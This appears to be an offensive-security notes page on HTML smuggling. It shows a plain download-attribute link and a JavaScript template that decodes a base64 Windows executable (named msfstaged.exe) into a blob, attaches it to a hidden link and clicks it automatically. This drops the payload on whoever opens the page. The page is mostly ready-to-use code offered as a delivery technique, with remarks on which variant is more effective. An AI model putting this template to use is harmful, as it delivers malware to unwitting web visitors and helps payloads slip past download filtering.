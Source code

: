 ### HTML Smuggling

To make use of the download attribute in HTML5 we can make use of the download attribute anchor tag. Unlikely to use this since this is pretty obvious, but good to be aware of.
```html
<html>
    <body>
      <a href="/payload.exe" download="payload.exe">DownloadMe</a>
   </body>
</html>
```

More likely to be effective is the following embedded Javascript that will translate a base64 payload into an octet stream, load it into memory as a file object, then create the HTML object above, but with the styling configured such that it won't be displayed, then use Javascript to click on the link.
```bash
base64 payload.exe
```
```html
<html>
    <body>
        <script>
            function base64ToArrayBuffer(base64) {
                var binary_string = window.atob(base64);
                var len = binary_string.length;
                var bytes = new Uint8Array( len );
                for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
                return bytes.buffer;
      		}
      		
      		var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...'
      		var data = base64ToArrayBuffer(file);
      		var blob = new Blob([data], {type: 'octet/stream'});
      		var fileName = 'msfstaged.exe';
      		
      		var a = document.createElement('a');
      		document.body.appendChild(a);
      		a.style = 'display: none';
      		var url = window.URL.createObjectURL(blob);
      		a.href = url;
      		a.download = fileName;
      		a.click();
      		window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```